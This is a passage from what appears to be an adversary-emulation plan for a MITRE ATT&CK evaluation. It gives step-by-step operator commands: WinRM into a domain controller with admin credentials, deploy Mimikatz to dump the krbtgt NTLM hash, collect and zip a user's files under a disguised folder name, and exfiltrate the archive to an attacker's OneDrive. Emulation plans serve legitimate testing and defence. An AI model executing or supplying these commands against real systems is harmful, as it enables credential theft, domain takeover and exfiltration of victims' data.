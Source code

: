#### 16.C

1. Interact with high integrity callback
2. Load `Invoke-WinRMSession.ps1` (available at <https://github.com/nettitude/PoshC2/blob/master/resources/modules/Invoke-WinRMSession.ps1>)
3. Execute `invoke-winrmsession -Username "[insert domain admin username]" -Password "[insert domain admin password]" -IPAddress [insert domain controller IP]`
4. Output will tell you a session opened and give you the format for using it, ex:
    `Session opened, to run a command do the following:`
    `Invoke-Command -Session $[session_id] -scriptblock {Get-Process} | out-string`
5. Save the value for the session_id (ex: `$hzaqx`)

**Note:** If you get an error here, reboot domain controller, then re-run the 2 winrm setup commands before re-executing 16.C

#### 16.D

1. Execute `Copy-Item m.exe -Destination "C:\Windows\System32\" -ToSession $[session_id]`
    * `m.exe` is a copy of the Mimikatz executable (available at <https://github.com/gentilkiwi/mimikatz>)
2. Execute `Invoke-Command -Session $[session_id] -scriptblock {C:\Windows\System32\m.exe privilege::debug "lsadump::lsa /inject /name:krbtgt" exit} | out-string`
3. Take note of value for the NTLM hash (ex: `NTLM : f4a688010d80770a55a22893dc6ac510`) near the top (Under RID and User after `* Primary`)
4. Execute `Get-PSSession | Remove-PSSession`

### Step 17 - Collection

#### 17.A

1. Interact with low integrity callback
2. Load `stepSeventeen_email.ps1`
3. Execute `psemail`

#### 17.B

1. Interact with high integrity callback
2. Execute `New-Item -Path "C:\Windows\Temp\" -Name "WindowsParentalControlMigration" -ItemType "directory"`
3. Execute `Copy-Item "C:\Users\oscar\Documents\MITRE-ATTACK-EVALS.HTML" -Destination "C:\Windows\Temp\WindowsParentalControlMigration"`

#### 17.C

1. Load `stepSeventeen_zip.ps1`
2. Execute `zip C:\Windows\Temp\WindowsParentalControlMigration.tmp C:\Windows\Temp\WindowsParentalControlMigration`

### Step 18 - Exfiltration

#### 18.A

1. Get CID for OneDrive account (<https://www.laptopmag.com/articles/map-onedrive-network-drive>)
2. Execute `net use y: https://d.docs.live.net/[CID] /user:[OneDrive account]@outlook.com "[OneDrive password]"`
3. Execute `Copy-Item "C:\Windows\Temp\WindowsParentalControlMigration.tmp" -Destination "Y:\WindowsParentalControlMigration.tmp"`
4. Login to <https://onedrive.live.com/?id=root&cid=[CID>] to see exfil (`WindowsParentalControlMigration.tmp`)
